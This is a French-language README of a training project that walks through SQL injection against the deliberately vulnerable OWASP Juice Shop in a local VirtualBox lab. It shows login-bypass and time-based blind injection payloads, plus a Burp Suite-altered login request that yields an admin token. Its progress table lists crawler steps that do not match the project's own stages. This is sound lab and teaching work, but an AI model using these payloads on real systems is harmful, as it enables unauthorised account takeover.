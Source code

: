 # Projet n°2 - Injection SQL sur OWASP Juice Shop

## 📚 Sommaire

1. [ Objectif du projet](#-objectif-du-projet)  
2. [ Environnement de test](#-environnement-de-test)  
3. [ Outils utilisés](#️-outils-utilisés)  
4. [ Étape 1 - Connexion des machines](#-étape-1--connexion-des-machines)  
5. [ Étape 2 - Lancement de Juice Shop](#-étape-2--lancement-de-juice-shop)  
6. [ Étape 3 - Connexion à Juice Shop](#-étape-3--connexion-à-juice-shop)  
7. [ Étape 4 - Injection SQL simple](#-étape-4--injection-sql-simple)  
8. [ Étape 5 - Injection SQL avancée (Blind SQLi)](#-étape-5--injection-sql-avancée-blind-sqli)  
9. [ Attaque via Burp Suite](#-attaque-via-burp-suite)  
10. [ Vocabulaire utile](#-vocabulaire-utile)  
11. [🛡️ Sécurité & Légalité](#️-sécurité--légalité)  
12. [ Suivi des projets GitHub](#-suivi-des-projets-github)  

---

##  Objectif du projet

Simuler une attaque **SQL Injection** dans un environnement sécurisé et local, via l’application volontairement vulnérable **OWASP Juice Shop**, afin de comprendre les risques liés à l'injection de requêtes SQL.

---

## 🚀 Avancement des étapes du projet

| Étape    | Fonction                                 | Statut       |
|----------|------------------------------------------|--------------|
| Étape 1  | Crawler HTML récursif                    | ✅ Terminé    |
| Étape 2  | Détection d'injections SQL               | ✅ Terminé
| Étape 3  | Détection de failles XSS                 | 🕒 À venir    |
| Étape 4  | Recherche de données sensibles           | 🕒 À venir    |
| Étape 5  | Génération de rapports JSON / Markdown   | 🕒 À venir    |

> 🧭 **Note importante** :  
> Ce projet est divisé en 5 étapes pédagogiques, chacune correspondant à une **fonctionnalité clé**. Les étapes seront publiées progressivement dans le dépôt **CyberCrawler-Python**.

----

##  Environnement de test

| Machine       | OS/Distro         | Rôle        | Adresse IP        |
|---------------|-------------------|-------------|-------------------|
| Parrot OS     | Parrot Security   | Attaquant   | `192.168.100.20`  |
| Debian        | Debian 13         | Victime     | `192.168.100.10`  |

➡️ Les deux machines tournent sur **VirtualBox** en **réseau local (bridge)**.

---

##  Outils utilisés

| Outil             | Fonction                                           |
|-------------------|----------------------------------------------------|
| Docker            | Déploiement de Juice Shop sur Debian               |
| OWASP Juice Shop  | Application vulnérable à tester                    |
| Firefox           | Navigateur web                                     |
| Burp Suite        | Interception et analyse des requêtes HTTP          |
| Terminal Linux    | Commandes réseau (ping, docker...)                 |

---

##  Étape 1 - Connexion des machines

Depuis Parrot :
ping 192.168.100.10

Depuis Debian :
ping 192.168.100.20

✅ Le ping confirme une communication bidirectionnelle entre Parrot (attaquant) et Debian (victime).

---

Étape 2 - Lancement de Juice Shop (sur Debian)

cd /root/
sudo ./start_juice.sh
sudo docker ps

🟢 Juice Shop est accessible depuis Parrot :
`192.168.100.10:3000`

---
🔓 Étape 3 - Connexion à Juice Shop

ℹ️ Remarque importante : Le service Juice Shop est hébergé sur la machine Debian (victime), mais l'accès à l'interface web se fait depuis Parrot (attaquant) via un navigateur.

URL de connexion (depuis Parrot) :

URL de connexion : `http://192.168.100.10:3000`

---

 Étape 4 - Injection SQL simple  

Champ	Valeur   
Email	' OR 1=1--   
Password	n'importe quoi   

✅ Connexion réussie sans mot de passe grâce à une injection SQL simple.

---

 Étape 5 - Injection SQL avancée (Blind SQLi)   

Champ	Valeur   
Email	' OR IF(1=1, SLEEP(5), 0)--   
Password	test   

✅ Le serveur prend 5 secondes à répondre, confirmant une Blind SQLi (injection sans message d’erreur).

---

Attaque via Burp Suite

⚙️ Détails techniques :  
	•	Interception de la requête POST /rest/user/login   
	•	Modification manuelle du corps JSON :   

{   
  "email": "' OR 1=1--",   
  "password": "peuimporte"   
}   

---

	•	Réception d’un token JWT dans la réponse (preuve d’authentification).  

🔍 Vérification de l’identité (whoami)   

GET /rest/user/whoami   
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9...    


✅ Réponse :   

{   
  "user": {   
    "email": "admin@juice-sh.op",   
    "role": "admin",   
    "profileImage": "assets/public/images/uploads/defaultAdmin.png"      
    }        
}        

🔐 Connexion admin réussie via injection SQL interceptée et modifiée dans Burp Suite.   


---

## Vocabulaire utile

| Terme        | Définition |
|--------------|------------|
| **Injection SQL** | Code malveillant injecté dans une requête SQL. |
| **Blind SQLi**    | Variante d’injection ne montrant pas de message d’erreur mais provoquant un comportement (ex : `SLEEP`). |
| **Payload**       | Code ou donnée malveillante injectée. |
| **Authentification contournée** | Accès à un compte sans identifiants valides. |
| **Pentest**       | Test d’intrusion légal simulant une attaque réelle. |


----


Sécurité & Légalité

Ce projet a été réalisé dans un environnement local et légal.  
Il est strictement interdit de tester ce type de vulnérabilité sur des systèmes réels sans autorisation explicite.   

 Plateformes d’entraînement légales recommandées :   
	•	OWASP Juice Shop   
	•	DVWA   
	•	bWAPP   

---

✍️ Auteur : *Virginie Lechene*

---

## Licence
Le script est publié sous la licence MIT.

## À propos de l’usage
Ce projet est destiné exclusivement à des fins pédagogiques, notamment dans le cadre de :
- d’une formation en cybersécurité,
- de tests d’intrusion légaux (pentest),
- d’analyses réseau dans un environnement contrôlé.

⚠️ L’auteure ne cautionne ni n’autorise l’utilisation de ce script en dehors d’un cadre légal strictement défini.
Toute utilisation non conforme est interdite et relève uniquement de la responsabilité de l’utilisateur.

## Droits sur les visuels
Les visuels, illustrations ou captures présents dans ce dépôt sont la propriété exclusive de l’auteure.
Toute reproduction ou utilisation non autorisée est interdite.


